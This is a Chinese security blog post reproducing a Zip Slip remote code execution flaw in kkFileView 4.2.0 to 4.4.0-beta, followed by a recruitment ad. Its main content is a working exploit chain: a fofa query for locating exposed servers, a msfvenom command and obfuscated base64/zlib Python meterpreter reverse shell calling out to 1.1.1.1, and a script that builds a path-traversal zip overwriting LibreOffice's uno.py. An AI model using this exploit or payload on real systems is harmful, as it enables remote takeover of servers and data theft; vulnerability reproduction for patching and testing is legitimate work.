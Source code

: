 #  kkfileview远程代码执行漏洞复现--保姆级复现   
hl666  安全小子大杂烩   2024-04-21 21:51  
  
## kkFileView 远程代码执行漏洞复现：  
#### 漏洞成因：  
  
在v4.2.0版本的更新中，由于前台上传功能在处理压缩包时，从仅获取文件名改为获取文件名及其目录，导致出现了Zip Slip漏洞。这使得攻击者可上传包含恶意代码的压缩包并覆盖系统文件，随后通过调用这些被覆盖的文件实现远程代码执行。  
#### 影响范围：  
```
4.2.0 <= kkFileView <= v4.4.0-beta
```  
#### 语法搜索：  
```
fofa：app="kkFileView" 
```  
#### 环境部署：  
```
wget https://kkview.cn/resource/kkFileView-4.2.0-docker.tar
docker load -i kkFileView-4.2.0-docker.tar
docker run -itd -p 8012:8012 keking/kkfileview:4.2.0
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Z1IQ67Y7qFTB44BiaBFm08rSp9poVyVsLtUSvYib9Qg3EaibUOA1KzgAiajuU3b0lhhPlW12MnkHXNRPtaHjwIicytA/640?wx_fmt=png&from=appmsg "null")  
  
访问8012端口，环境就起来了：  
#### 漏洞复现：  
  
考虑到环境以及以及一些命令问题，这里直接选择用msf来反弹shell  
#### msf生成python木马：  
```
msfvenom -p python/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=11321 -f raw -o kkview.py
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Z1IQ67Y7qFTB44BiaBFm08rSp9poVyVsLQ4gXsKrn8huK10dctw1YX0RhVG0TQNhyxWLiaOgribcp2C1cNsXFmJjw/640?wx_fmt=png&from=appmsg "null")  
```
exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNo9T01LAzEQPW9+RW5JMIamrj0UVxDxICKC9SYiu8m0hs0mIUl1VfzvNqbIwAxv3puPZ6bgY8bJqxEy/7Jm4EOfYNXylONeZZ7NBGjrI56xcTj2bgdULtgaNTl+HnKTujosaqFLfsSbh+u7183T483VPSs6obxzoDKlRIq/IFzKs6VkhR4i9CNqYFYQctlbDotkAQI9Z8h29R+xd6FXIyWXt4QnEUG905ax58UL0t0RW4Y+3owFbMFRzS7sYZ0++WdPa5shmEHRYlloUH4KEVKi1b0YVm1paihK/k0SWacfhn4BkdFeGg==')[0])))
```  
#### 替换如下脚本：  
  
注意点一：将上述的'进行转义，用'  
  
注意点二：/opt/libreoffice7.3/program/uno.py 该路径注意下，很多脚本都是/opt/libreoffice7.5/program/uno.py路径，这里根据版本和实际情况来的，这里环境就是7.3的  
```
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'test'
        binary2 = b'exec(__import__(\'zlib\').decompress(__import__(\'base64\').b64decode(__import__(\'codecs\').getencoder(\'utf-8\')(\'eNo9T01LAzEQPW9+RW5JMIamrj0UVxDxICKC9SYiu8m0hs0mIUl1VfzvNqbIwAxv3puPZ6bgY8bJqxEy/7Jm4EOfYNXylONeZZ7NBGjrI56xcTj2bgdULtgaNTl+HnKTujosaqFLfsSbh+u7183T483VPSs6obxzoDKlRIq/IFzKs6VkhR4i9CNqYFYQctlbDotkAQI9Z8h29R+xd6FXIyWXt4QnEUG905ax58UL0t0RW4Y+3owFbMFRzS7sYZ0++WdPa5shmEHRYlloUH4KEVKi1b0YVm1paihK/k0SWacfhn4BkdFeGg==\')[0])))'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.3/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```  
  
利用脚本生成zip文件，然后随便简历一个odt文件即可：  
#### 触发漏洞：  
  
这里先上传zip文件进行预览：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Z1IQ67Y7qFTB44BiaBFm08rSp9poVyVsLvmClmBTpybic1B1jicqIJlRk1LaQWwrWY31D9ybv5bgoicibne1GCO4SBw/640?wx_fmt=png&from=appmsg "null")  
  
image-20240421212837883  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Z1IQ67Y7qFTB44BiaBFm08rSp9poVyVsL2R1BlDfmMpmcvlZCWPNhX7msSudibZibO68icb4cQ60D2D2UzOdyWg1kg/640?wx_fmt=png&from=appmsg "null")  
  
紧接着上传otd文件(可以新建一个word，改名为otd后缀即可)，点击预览，即可触发该漏洞，msf收到shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Z1IQ67Y7qFTB44BiaBFm08rSp9poVyVsL9c3xInLBGsa2l11m6uYaGYQJmW5XvicicFpoF6JQgm21yXPUIn3Vc3kg/640?wx_fmt=png&from=appmsg "null")  
  
image-20240421212955066  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Z1IQ67Y7qFTB44BiaBFm08rSp9poVyVsLFrkVlWrFKgibQB5sgcMerPs9bD7dcEObic4qsxS3kGy9I50ncO3rbqWg/640?wx_fmt=png&from=appmsg "null")  
  
image-20240421213044699  
  
查看opt/libreoffice7.3/program/uno.py文件，发现恶意脚本已经写入成功，并成功触发  
  
  
  
目前招聘hw蓝对，初，中，高级人员，近期准备面试，欢迎各位师傅投递简历  
  
**薪资待遇**  
  
● 面试定级，日薪1k-4k，能力突出者上不封顶  
  
● 进场预付款：4k  
  
● 商业保险：  
**签约者每人一份医疗、意外、身故等保险**  
  
  
● 地点：全国一线城市为主，其他城市为辅  
  
● 或联系以下微信，近期准备面试，备注姓名-级别  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Z1IQ67Y7qFREpd620A7F1jtNuwYogk7kldImrXpvh1e2b6oEOIAic2uht8LlZkjDnpfAWgUom5At8eupxHs9ZFA/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
